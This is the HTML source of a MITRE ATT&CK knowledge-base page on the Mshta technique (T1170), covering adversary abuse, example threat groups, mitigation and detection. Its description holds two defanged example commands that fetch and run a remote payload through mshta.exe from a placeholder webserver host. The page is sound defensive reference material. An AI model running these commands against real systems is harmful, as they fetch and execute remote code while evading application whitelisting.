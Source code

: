 <div class="container-fluid">
 <h1>
  Mshta
 </h1>
 <div class="row">
  <div class="col-md-8 description-body">
   <p>
    Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension
    <code>
     .hta
    </code>
    .
    <span class="scite-citeref-number" data-reference="Wikipedia HTML Application" id="scite-ref-1-a">
     <sup>
      <a aria-describedby="qtip-0" data-hasqtip="0" href="https://en.wikipedia.org/wiki/HTML_Application" target="_blank">
       [1]
      </a>
     </sup>
    </span>
    HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser.
    <span class="scite-citeref-number" data-reference="MSDN HTML Applications" id="scite-ref-2-a">
     <sup>
      <a aria-describedby="qtip-1" data-hasqtip="1" href="https://msdn.microsoft.com/library/ms536471.aspx" target="_blank">
       [2]
      </a>
     </sup>
    </span>
   </p>
   <p>
    Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code
    <span class="scite-citeref-number" data-reference="Cylance Dust Storm" id="scite-ref-3-a">
     <sup>
      <a aria-describedby="qtip-2" data-hasqtip="2" href="https://www.cylance.com/content/dam/cylance/pdfs/reports/Op_Dust_Storm_Report.pdf" target="_blank">
       [3]
      </a>
     </sup>
    </span>
    <span class="scite-citeref-number" data-reference="Red Canary HTA Abuse Part Deux" id="scite-ref-4-a">
     <sup>
      <a aria-describedby="qtip-3" data-hasqtip="3" href="https://www.redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/" target="_blank">
       [4]
      </a>
     </sup>
    </span>
    <span class="scite-citeref-number" data-reference="FireEye Attacks Leveraging HTA" id="scite-ref-5-a">
     <sup>
      <a aria-describedby="qtip-4" data-hasqtip="4" href="https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html" target="_blank">
       [5]
      </a>
     </sup>
    </span>
    <span class="scite-citeref-number" data-reference="Airbus Security Kovter Analysis" id="scite-ref-6-a">
     <sup>
      [6]
     </sup>
    </span>
    <span class="scite-citeref-number" data-reference="FireEye FIN7 April 2017" id="scite-ref-7-a">
     <sup>
      <a aria-describedby="qtip-6" data-hasqtip="6" href="https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html" target="_blank">
       [7]
      </a>
     </sup>
    </span>
   </p>
   <p>
    Files may be executed by mshta.exe through an inline script:
    <code>
     mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))
    </code>
   </p>
   <p>
    They may also be executed directly from URLs:
    <code>
     mshta http[:]//webserver/payload[.]hta
    </code>
   </p>
   <p>
    Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings.
    <span class="scite-citeref-number" data-reference="GitHub SubTee The List" id="scite-ref-8-a">
     <sup>
      [8]
     </sup>
    </span>
   </p>
  </div>
  <div class="col-md-4">
   <div class="card">
    <div class="card-body">
     <div class="card-data">
      <span class="h5 card-title">
       ID
      </span>
      : T1170
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Tactic
      </span>
      : Defense Evasion, Execution
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Platform:
      </span>
      Windows
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Permissions Required:
      </span>
      User
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Data Sources:
      </span>
      Process monitoring, Process command-line parameters
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Supports Remote:
      </span>
      No
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Defense Bypassed:
      </span>
      Application whitelisting
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Contributors:
      </span>
      Ricardo Dias; Ye Yint Min Thu Htut, Offensive Security Team, DBS Bank
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Version
      </span>
      : 1.0
     </div>
    </div>
   </div>
  </div>
 </div>
 <h2 class="pt-3" id="examples">
  Examples
 </h2>
 <table class="table table-bordered table-light mt-2">
  <thead>
   <tr>
    <th scope="col">
     Name
    </th>
    <th scope="col">
     Description
    </th>
   </tr>
  </thead>
  <tbody class="bg-white">
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0046">
      FIN7
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0046">
       FIN7
      </a>
      has used mshta.exe to execute VBScript to execute malicious code on victim systems.
      <span class="scite-citeref-number" data-reference="FireEye FIN7 April 2017" id="scite-ref-7-a" onclick="scrollToRef('scite-7')">
       <sup>
        <a aria-describedby="qtip-6" data-hasqtip="6" href="https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html" target="_blank">
         [7]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/software/S0250">
      Koadic
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/software/S0250">
       Koadic
      </a>
      can use MSHTA to serve additional payloads.
      <span class="scite-citeref-number" data-reference="Github Koadic" id="scite-ref-9-a" onclick="scrollToRef('scite-9')">
       <sup>
        <a aria-describedby="qtip-8" data-hasqtip="8" href="https://github.com/zerosum0x0/koadic" target="_blank">
         [9]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0069">
      MuddyWater
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0069">
       MuddyWater
      </a>
      has used Mshta.exe to execute its
      <a href="https://attack.mitre.org/software/S0223">
       POWERSTATS
      </a>
      payload.
      <span class="scite-citeref-number" data-reference="FireEye MuddyWater Mar 2018" id="scite-ref-10-a" onclick="scrollToRef('scite-10')">
       <sup>
        <a aria-describedby="qtip-9" data-hasqtip="9" href="https://www.fireeye.com/blog/threat-research/2018/03/iranian-threat-group-updates-ttps-in-spear-phishing-campaign.html" target="_blank">
         [10]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/software/S0228">
      NanHaiShu
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/software/S0228">
       NanHaiShu
      </a>
      uses mshta.exe to load its program and files.
      <span class="scite-citeref-number" data-reference="fsecure NanHaiShu July 2016" id="scite-ref-11-a" onclick="scrollToRef('scite-11')">
       <sup>
        <a aria-describedby="qtip-10" data-hasqtip="10" href="https://www.f-secure.com/documents/996508/1030745/nanhaishu_whitepaper.pdf" target="_blank">
         [11]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/software/S0223">
      POWERSTATS
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/software/S0223">
       POWERSTATS
      </a>
      can use Mshta.exe to execute additional payloads on compromised hosts.
      <span class="scite-citeref-number" data-reference="FireEye MuddyWater Mar 2018" id="scite-ref-10-a" onclick="scrollToRef('scite-10')">
       <sup>
        <a aria-describedby="qtip-9" data-hasqtip="9" href="https://www.fireeye.com/blog/threat-research/2018/03/iranian-threat-group-updates-ttps-in-spear-phishing-campaign.html" target="_blank">
         [10]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
  </tbody>
 </table>
 <h2 class="pt-3" id="mitigation">
  Mitigation
 </h2>
 <p>
  Mshta.exe may not be necessary within a given environment since its functionality is tied to older versions of Internet Explorer which have reached end of life. Use application whitelisting configured to block execution of mshta.exe if it is not required for a given system or network to prevent potential misuse by adversaries.
 </p>
 <h2 class="pt-3" id="detection">
  Detection
 </h2>
 <p>
  Use process monitoring to monitor the execution and arguments of mshta.exe. Look for mshta.exe executing raw or obfuscated script within the command-line. Compare recent invocations of mshta.exe with prior history of known good arguments and executed binaries to determine anomalous and potentially adversarial activity. Command arguments used before and after the mshta.exe invocation may also be useful in determining the origin and purpose of the binary being executed.
 </p>
 <p>
  Monitor use of HTA files. If they are not typically used within an environment then execution of them may be suspicious.
 </p>
 <h2 class="pt-3" id="references">
  References
 </h2>
 <div class="row">
  <div class="col">
   <ol>
    <li>
     <span class="scite-citation" id="scite-1">
      <span class="scite-citation-text">
       <a class="external text" href="https://en.wikipedia.org/wiki/HTML_Application" name="scite-1" rel="nofollow" target="_blank">
        Wikipedia. (2017, October 14). HTML Application. Retrieved October 27, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-2">
      <span class="scite-citation-text">
       <a class="external text" href="https://msdn.microsoft.com/library/ms536471.aspx" name="scite-2" rel="nofollow" target="_blank">
        Microsoft. (n.d.). HTML Applications. Retrieved October 27, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-3">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.cylance.com/content/dam/cylance/pdfs/reports/Op_Dust_Storm_Report.pdf" name="scite-3" rel="nofollow" target="_blank">
        Gross, J. (2016, February 23). Operation Dust Storm. Retrieved September 19, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-4">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/" name="scite-4" rel="nofollow" target="_blank">
        McCammon, K. (2015, August 14). Microsoft HTML Application (HTA) Abuse, Part Deux. Retrieved October 27, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-5">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html" name="scite-5" rel="nofollow" target="_blank">
        Berry, A., Galang, L., Jiang, G., Leathery, J., Mohandas, R. (2017, April 11). CVE-2017-0199: In the Wild Attacks Leveraging HTA Handler. Retrieved October 27, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-6">
      <span class="scite-citation-text">
       Dove, A. (2016, March 23). Fileless Malware – A Behavioural Analysis Of Kovter Persistence. Retrieved December 5, 2017.
      </span>
     </span>
    </li>
   </ol>
  </div>
  <div class="col">
   <ol start="7.5">
    <li>
     <span class="scite-citation" id="scite-7">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html" name="scite-7" rel="nofollow" target="_blank">
        Carr, N., et al. (2017, April 24). FIN7 Evolution and the Phishing LNK. Retrieved April 24, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-8">
      <span class="scite-citation-text">
       [ Smith, C. (2017, July 14). TheList.txt. Retrieved October 27, 2017.
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-9">
      <span class="scite-citation-text">
       <a class="external text" href="https://github.com/zerosum0x0/koadic" name="scite-9" rel="nofollow" target="_blank">
        Magius, J., et al. (2017, July 19). Koadic. Retrieved June 18, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-10">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.fireeye.com/blog/threat-research/2018/03/iranian-threat-group-updates-ttps-in-spear-phishing-campaign.html" name="scite-10" rel="nofollow" target="_blank">
        Singh, S. et al.. (2018, March 13). Iranian Threat Group Updates Tactics, Techniques and Procedures in Spear Phishing Campaign. Retrieved April 11, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-11">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.f-secure.com/documents/996508/1030745/nanhaishu_whitepaper.pdf" name="scite-11" rel="nofollow" target="_blank">
        F-Secure Labs. (2016, July). NANHAISHU RATing the South China Sea. Retrieved July 6, 2018.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
 </div>
</div>

